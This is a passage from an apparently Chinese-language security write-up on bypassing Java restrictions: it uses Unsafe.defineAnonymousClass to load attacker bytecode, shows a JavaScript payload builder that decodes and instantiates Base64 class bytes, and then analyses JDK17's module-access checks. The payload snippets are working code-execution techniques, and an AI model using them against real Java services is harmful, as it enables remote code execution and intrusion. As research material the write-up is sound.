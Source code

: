 ```java
    "var ClassAnonymousClass = unsafe.defineAnonymousClass(java.lang.Class.forName(\"java.lang.Class\"), clz, null);" +
    "var reflectionDataField = ClassAnonymousClass.getDeclaredField(\"reflectionData\");" +
    "unsafe.putObject(classClass, unsafe.objectFieldOffset(reflectionDataField), null);};";
```

### defineAnonymousClass Bypass

虽然JDK11把`Unsafe#defineClass`移除了，但`Unsafe#defineAnonymousClass`还在

```java
Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
f.setAccessible(true);
Unsafe unsafe = (Unsafe) f.get(null);
unsafe.defineAnonymousClass(Class.class, getEvilCode("calc"), null).newInstance();
```

```java
public static String getJsPayload5(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var theUnsafe = java.lang.Class.forName(\"sun.misc.Unsafe\").getDeclaredField(\"theUnsafe\");" +
        "theUnsafe.setAccessible(true);" +
        "unsafe = theUnsafe.get(null);" +
        "unsafe.defineAnonymousClass(java.lang.Class.forName(\"java.lang.Class\"), bytes, null).newInstance();";
}
```

## JDK17

JDK17中，在`checkCanSetAccessible`最后一关判断模块是否开放不能通过，导致抛出异常`Unable to make xxx accessible: module xxx does not opens xxx to xxx` 

```java
// package is open to caller
if (declaringModule.isOpen(pn, callerModule)) {
    return true;
}
```

`declaringModule`即目标`AccessibleObject`所在类`declaringClass`所在的模块

比如`java.lang.Class`所在`java.base`

`pn`是`declaringClass`的包名

跟进`Module#isOpen`

```java
/*
* Returns true if this module exports or opens the given package 
* to the given module. If the other module is EVERYONE_MODULE then
* this method tests if the package is exported or opened
* unconditionally.
*/
private boolean implIsExportedOrOpen(String pn, Module other, boolean open) {
    // all packages in unnamed modules are open
    if (!isNamed())
        return true;

    // all packages are exported/open to self
    if (other == this && descriptor.packages().contains(pn))
        return true;

    // all packages in open and automatic modules are open
    if (descriptor.isOpen() || descriptor.isAutomatic())
```